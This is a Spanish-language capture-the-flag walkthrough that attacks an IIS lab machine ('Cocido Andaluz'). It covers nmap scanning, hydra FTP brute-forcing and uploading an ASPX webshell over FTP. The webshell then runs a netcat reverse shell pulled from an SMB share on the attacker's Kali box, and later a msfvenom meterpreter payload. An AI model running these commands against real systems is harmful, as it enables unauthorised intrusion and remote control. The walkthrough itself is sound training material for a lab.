

# Webshell ASPX en Servidor Microsoft IIS

Maquinas que voy a utilizar **Kali Linux y Cocido Andaluz** [https://thehackerslabs.com/cocido-andaluz/](https://thehackerslabs.com/cocido-andaluz/)

<aside>
💡

Un servidor **Microsoft IIS (Internet Information Services)** es una plataforma de servidor web desarrollada por Microsoft. Es utilizada para alojar páginas y aplicaciones web, así como servicios relacionados con el Protocolo de Transferencia de Hipertexto (**HTTP**). IIS permite a los usuarios publicar contenido web y gestionar funciones relacionadas con servidores, aplicaciones y sitios web.

</aside>

Comando utilizado para ejecutar la reverse shell:

\`\192.168.0.X\recurso\nc.exe -e cmd.exe 192.168.0.X 443`

Vamos a intentar obtener **intrusión remota** en un servidor Microsoft IIS mediante un **archivo malicioso con extensión aspx**.

```bash
sudo arp-scan -I eth0 --localnet
```


```bash
ping -c 1 10.0.3.19  
```


El **ttl=128** nos informa que es una maquina **Windows.**

```bash
nmap -p- -sS -sV -sC -min-rate=5000 -n -vvv -Pn 10.0.3.19 
```


- Provamos la IP en el navegador
    
    
    
- Hacemos **Fuzzing Web con la herramienta dirb.**
    
    ```bash
    dirb [http://10.0.3.19/](./imagenes/http://10.0.3.19/)
    ```
    
    
    

- Vamos a mirar que puede ser esto.
    
    
    
    Por aquí parece que no vemos nada , lo dejamos en pausa y seguimos intentándolo de otra manera.
    
- Vamos  a ver de nuevo la enumeración que hemos hecho con nmap.
    
    
    
    Vemos que tiene abierto el **puerto 21** con un **servicio ftp**. 
    
- Le vamos a hacer un ataque de fuerza bruta con **hydra** aunque no sepamos el usuario y la contraseña.
    
    ```bash
    hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt ftp://10.0.3.19
    ```
    
    
    
    <aside>
    💡
    
    Como vemos estamos usando **distintos diccionarios** para **Usuario** y para **Password**.
    
    </aside>
    

- Con las credenciales que hemos conseguido vamos a entrar por FTP.
    
    ```bash
    ftp 10.0.3.19 
    ```
    
    
    
    **En algunos sitios** podemos encontrarnos con que el **contenido del FTP** esta **vinculado** al **contenido del puerto 80** (la pagina Web). Esto lo **podemos utilizar** para **subir archivos** y poder **verlos desde el navegador**.
    
    <aside>
    💡
    
    En Kali Linux por defecto nos podemos encontrar un archivo cmd malicioso ya creado con **extensión aspx**. Si no esta pues nos crearíamos uno con msfvenom.
    
    </aside>
    
- Buscamos la ubicación del archivo de la siguiente manera.
    
    ```bash
    find / -name cmdasp.aspx 2>/dev/null
    ```
    
    
    
- Nos copiamos este archivo al escritorio para tener mas facilidad de manejo.
    
    ```bash
    cp /usr/share/webshells/aspx/cmdasp.aspx .
    ```
    
    
    
- Lo subimos al FTP desde el terminal conectado al FTP.
    
    `put cmdasp.aspx`
    
    
    
    <aside>
    💡
    
    ### **Comandos básicos en un FTP**.
    
    1. **Navegación en Directorios:**
        - `ls` o `dir`: Lista los archivos y directorios en el directorio actual.
        - `cd [directorio]`: Cambia al directorio especificado.
        - `pwd`: Muestra el directorio actual.
        - `cd ..`: Retrocede al directorio padre.
    2. **Transferencia de Archivos:**
        - `get [archivo]`: Descarga un archivo desde el servidor al equipo local.
        - `mget [archivos]`: Descarga múltiples archivos a la vez.
        - `put [archivo]`: Sube un archivo desde el equipo local al servidor.
        - `mput [archivos]`: Sube múltiples archivos a la vez.
    3. **Gestión de Archivos:**
        - `delete [archivo]`: Elimina un archivo del servidor.
        - `rename [archivo_antiguo] [archivo_nuevo]`: Cambia el nombre de un archivo en el servidor.
        - `mkdir [directorio]`: Crea un nuevo directorio en el servidor.
        - `rmdir [directorio]`: Elimina un directorio vacío del servidor.
    4. **Opciones Generales:**
        - `quit` o `bye`: Cierra la sesión y desconecta del servidor FTP.
        - `help` o `?`: Muestra ayuda o información sobre comandos disponibles.
    </aside>
    
- Vamos al navegador web y comprobamos si podemos ver el archivo.
    
    
    
    Se nos ejecuta una **Webshell** de tal forma que podemos ejecutar archivos desde el navegador.
    
    
    

<aside>

**¿Cómo podemos conseguir intrusión remota a la maquina victima, desde aquí?**

Basicamente tendríamos dos opciones :

1. Creando un archivo malicioso con msfvenom y subiéndolo al ftp. 
2. Crearnos un recurso compartido que aloje un netcat.exe y a partir de hay conseguir entrar a la maquina victima.

La segunda opción  es mucho mejor por que el Payload malicioso dependería de tener en el directorio donde estamos permisos de escritura. Y podemos tenerlo o no. **La creación de archivo malicioso lo veremos en la siguiente lección.** 

</aside>

- Vamos a hacer una búsqueda de nuevo en el Kali. Ya que también por defecto tenemos almacenado un ejecutable **.exe** de **netcat** almacenado.
    
    ```bash
    find / -name nc.exe 2>/dev/null
    ```
    
    
    
- Lo copiamos al escritorio .
    
    ```bash
    cp /usr/share/windows-resources/binaries/nc.exe .
    ```
    
    
    

**La idea** es desde el Kali Linux levantarnos un recurso compartido en la red alojando el nc.exe y luego desde el  **Webshell**  ejecutar un comando apuntado al recurso compartido y al nc.exe para mandarme una revershell a mi maquina atacante.

<aside>

### Pasos:

1. **Preparar el recurso compartido en la red en Kali Linux**
2. **Verificar acceso al recurso compartido**
3. **Ejecutar comandos desde el Webshell**
4. **Escuchar en tu máquina atacante**
5. **Recibir la conexión**
</aside>

- Vamos a usar una serie de herramientas llamadas **Impacket** para levantar un recurso compartido en el escritorio**.**
    
    ```bash
    impacket-smbserver recurso $(pwd) -smb2support
    ```
    
    
    
    <aside>
    💡
    
    **`impacket-smbserver`**:
    
    - Es una herramienta de **Impacket** que permite crear un servidor SMB (Server Message Block) en Kali Linux. Esta utilidad te permite compartir directorios locales de tu máquina en la red mediante el protocolo SMB.
    
    **`recurso`**:
    
    - Este es el **nombre del recurso compartido** que aparecerá en la red. Por ejemplo, si decides llamar al recurso "compartido", será accesible como `\\IP_del_Kali\compartido`.
    
    **`$(pwd)`**:
    
    - Es un comando de **Bash** que devuelve el **directorio de trabajo actual** (el lugar donde te encuentras en la terminal). En este caso, la carpeta desde donde ejecutas el comando será la carpeta que se compartirá a través de SMB.
    
    **`smb2support`**:
    
    - Esta bandera activa el soporte para el protocolo **SMBv2**. Es útil ya que muchos sistemas modernos deshabilitan SMBv1 por razones de seguridad.
    </aside>
    
- En otro terminal nos ponemos a la escucha por un puerto . Por ejemplo por el 443.
    
    ```bash
    nc -nlvp 443
    ```
    
    
    
- Nos vamos al navegador web y en el formulario de comandos escribimos lo siguiente donde la primera IP es la maquina Kali y la segunda IP también la de mi maquina Kali .
    
    `\\10.0.3.4\recurso\nc.exe -e cmd.exe 10.0.3.4 443`
    
    
    
    
    
- Vamos a proceder a acceder desde una meterpreter ya que en esta ocasión no tenemos privilegios `nt authority\servicio de red.`
    
    En esta maquina Windows en concreto no tiene instaladas las utilidades **wget o curl** , las cuales nos hubieran permitido subir un archivo malicioso.
    
    - Creamos un archivo malicioso .exe
        
        ```bash
        msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.3.4 LPORT=444 -f exe -o shell.exe
        ```
        
        
        
    
    - Cerramos el recurso compartido que habíamos creado en caso de tenerlo activo. Y creamos otro nuevo.
        
        ```bash
        impacket-smbserver recurso $(pwd) -smb2support
        ```
        
        
        
    - En el termina que habíamos abierto anterior mente de la maquina victima nos movemos al directorio **\Temp .** Ya que por lo general en este directorio tenemos permisos de escritura.
        
        `cd ..`
        
        `cd ..`
        
        `cd temp`
        
        
        
    - Copiamos el archivo shell.exe desde el recurso compartido al directorio **temp**.
        
        `copy \\10.0.3.4\recurso\shell.exe shell.exe`
        
        
        
        - `use multi/handler`
        - `show options`
        - `set LHOST 10.0.3.4`
        - `set LPORT 444`
        - `set PAYLOAD windows/meterpreter/reverse_tcp`
        - `run`
            
            
            
    
    - Vamos a la maquina victima y ejecuto el comando shell.exe
        
        `shell.exe`
        
        
        
        
        
        Desde una meterpreter es mas fácil subir privilegios pero eso lo veremos mas adelante.